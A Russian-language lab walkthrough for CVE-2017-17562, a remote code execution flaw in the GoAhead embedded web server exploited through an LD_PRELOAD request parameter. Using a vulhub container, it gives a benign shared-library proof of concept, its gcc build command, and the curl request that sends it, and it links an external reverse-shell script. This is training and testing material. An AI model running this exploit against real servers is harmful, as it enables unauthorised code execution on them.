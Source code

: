 # CVE-2017-17562

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-17562](https://nvd.nist.gov/vuln/detail/CVE-2017-17562)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562)
* [https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/](https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/)

GoAhead — это встраиваемый веб-сервер компании Embedthis, который используется в продуктах Oracle, IBM, HP и других известных производителей.

Embedthis GoAhead до версии 3.6.5 позволяет удаленно выполнить код, если включен CGI и CGI-программа динамически компонуется. Это происходит в результате инициализации окружения форк CGI-скриптов с помощью недоверенных параметров HTTP-запроса в функции cgiHandler в файле cgi.c. В сочетании с динамическим компоновщиком glibc такое поведение может быть использовано для удаленного выполнения кода с помощью специальных имен параметров, таких как LD\_PRELOAD. Злоумышленник может поместить полезную нагрузку разделяемого объекта в тело запроса и сослаться на него, используя /proc/self/fd/0.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2017-17562

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

\--- скрин web ----

CGI-скрипты доступны по адресу http://ваш-ip:8080/cgi-bin/index

\---- скрин страницы со скриптами ----

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

\---- скрин с компиляцией ----

Используйте утилиту curl, чтобы произвести атаку:

```
curl -X POST --data-binary @payload.so "http://ваш-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

\---- скрин выполнения команды ----

В ответе мы можем видеть, что появился заголовок hello со значением World!, что свидетельствует об успешном выполнении кода

\---- скрин пакета ----

Для автоматизации получения обратной оболочку можно использовать [данный](https://www.exploit-db.com/exploits/43360) скрипт

\---- скрин получения ----

вазух&#x20;

\---- скрин вазух ----
